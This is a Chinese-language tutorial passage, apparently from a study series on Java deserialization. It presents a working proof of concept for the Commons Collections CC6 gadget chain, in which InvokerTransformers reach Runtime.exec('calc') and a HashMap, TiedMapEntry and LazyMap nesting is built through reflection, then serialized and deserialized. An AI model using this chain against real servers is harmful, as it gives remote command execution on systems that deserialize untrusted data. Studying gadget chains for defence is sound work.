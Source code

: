 看到上面的分析，其实能发现chainedTransformer.transform()方法是可以传值的和其他链不一样。

我们把TiedMapEntry tiedMapEntry = new TiedMapEntry(LazyMap, 1); //Map key 的key传入Runtime.class也是可以的

Poc

```java
public class cc6 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                //new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                new ConstantTransformer("1")
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), chainedTransformer);
        //断掉利用链 TiedMapEntry, LazyMap, ChainedTransformer都可以
        //举个例子修改tiedMapEntry的 key
        TiedMapEntry tiedMapEntry = new TiedMapEntry(new HashMap(), Runtime.class);

        HashMap<Object, Object> hashMap = new HashMap<>();

        hashMap.put(tiedMapEntry, 1);

        //复原
        //因为key为private，而且也没有public方法能直接修改key
        //利用反射
        Class c = TiedMapEntry.class;
        Field key = c.getDeclaredField("map");
        key.setAccessible(true);
        key.set(tiedMapEntry, lazyMap);

        cc1_poc.serialize(hashMap);
        cc1_poc.unserialize("s.ser");
    }
}
```

